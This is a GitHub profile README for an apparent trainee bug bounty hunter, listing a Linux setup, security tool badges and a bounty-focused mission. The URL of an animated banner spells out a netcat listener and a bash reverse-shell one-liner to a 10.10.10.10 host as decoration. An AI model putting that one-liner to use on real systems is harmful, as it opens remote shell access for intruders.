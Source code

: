 <h1 align="center">Hi 👋, I'm b1kr3m</h1>


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=4000&pause=500&color=29E8F7&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5Bb1kr3m%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;b1kr3m%40profile%3A~%24+.%2Fexploit.py;......................................................................................................;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;b1kr3m" alt="Typing SVG" /></a>


```bash
$ whoami
bug_bounty_hunter_in_training
$ uname -a
Arch Linux | Hyprland | Security Focused
$ echo $MISSION
"Making the web safer, one vulnerability at a time"
```
<div align='right'>

</div>

<div align="left">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=00F7FF&center=true&vCenter=true&width=435&lines=Bug+Bounty+Hunter+%F0%9F%91%A8%E2%80%8D%F0%9F%92%BB;Cybersecurity+Enthusiast+%F0%9F%94%92;Linux+Power+User+%F0%9F%90%A7;Learning+%26+Growing+%F0%9F%9A%80" alt="Typing SVG" />
</div>


### ⚓️ Primary Pentesting Rig
<p align='left'>
  <img src="https://img.shields.io/badge/Arch-f23224?style=for-the-badge&logo=arch-linux&logoColor=white" />
  <img src="https://img.shields.io/badge/Hyprland-blue?style=for-the-badge&logoColor=white" />
  <img src="https://img.shields.io/badge/core%20i7%2013th-%230071C5.svg?&style=for-the-badge&logo=intel&logoColor=white" />
  <img src="https://img.shields.io/badge/rtx%204060-%2376B900.svg?&style=for-the-badge&logo=nvidia&logoColor=white" />
  <img src="https://img.shields.io/badge/RAM-32GB-%230071C5.svg?&style=for-the-badge&logoColor=white" />
</p>

### 🔐 Security Tools

<p align="left">
  <img src="https://img.shields.io/badge/Burp%20Suite-FF6633?style=for-the-badge&logo=burpsuite&logoColor=white" alt="Burp Suite"/>
  <img src="https://img.shields.io/badge/Wireshark-1679A7?style=for-the-badge&logo=wireshark&logoColor=white" alt="Wireshark"/>
  <img src="https://img.shields.io/badge/Metasploit-2596CD?style=for-the-badge&logo=metasploit&logoColor=white" alt="Metasploit"/>
  <img src="https://img.shields.io/badge/Nmap-2C2C2C?style=for-the-badge&logo=nmap&logoColor=white" alt="Nmap"/>
  <img src="https://img.shields.io/badge/Amass-FF6F00?style=for-the-badge&logo=apache&logoColor=white" alt="Amass"/>
  <img src="https://img.shields.io/badge/Sublist3r-4B8BBE?style=for-the-badge&logo=python&logoColor=white" alt="Sublist3r"/>
  <img src="https://img.shields.io/badge/FFUF-FFD700?style=for-the-badge&logo=fastapi&logoColor=black" alt="FFUF"/>
  <img src="https://img.shields.io/badge/SQLmap-800000?style=for-the-badge&logo=sqlite&logoColor=white" alt="SQLmap"/>
  <img src="https://img.shields.io/badge/Hydra-228B22?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Hydra"/>
  <img src="https://img.shields.io/badge/HackerOne-494949?style=for-the-badge&logo=hackerone&logoColor=white" alt="HackerOne"/>
  <img src="https://img.shields.io/badge/Bugcrowd-FF6600?style=for-the-badge&logo=bugcrowd&logoColor=white" alt="Bugcrowd"/>
  <img src="https://img.shields.io/badge/TryHackMe-212C42?style=for-the-badge&logo=tryhackme&logoColor=red" alt="TryHackMe"/>
  <img src="https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=hackthebox&logoColor=9FEF00" alt="Hack The Box"/>
  <img src="https://img.shields.io/badge/Kali-557C94?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali Linux"/>
  <img src="https://img.shields.io/badge/OWASP-000000?style=for-the-badge&logo=owasp&logoColor=white" alt="OWASP"/>
</p>


<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
  <img alt="pacman contribution graph" src="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
</picture>

---

<div align="center">
  
**"From fear to first bounty - the journey continues..."** 🎯

[![Linux](https://img.shields.io/badge/-Linux-000000?style=flat&logo=linux&logoColor=FCC624)](https://github.com/b1kr3m)
[![Security](https://img.shields.io/badge/-Security-000000?style=flat&logo=hackaday&logoColor=1FC7D4)](https://github.com/b1kr3m)
[![Bug Bounty](https://img.shields.io/badge/-Bug%20Bounty-000000?style=flat&logo=bugcrowd&logoColor=F26822)](https://github.com/b1kr3m)
</div>

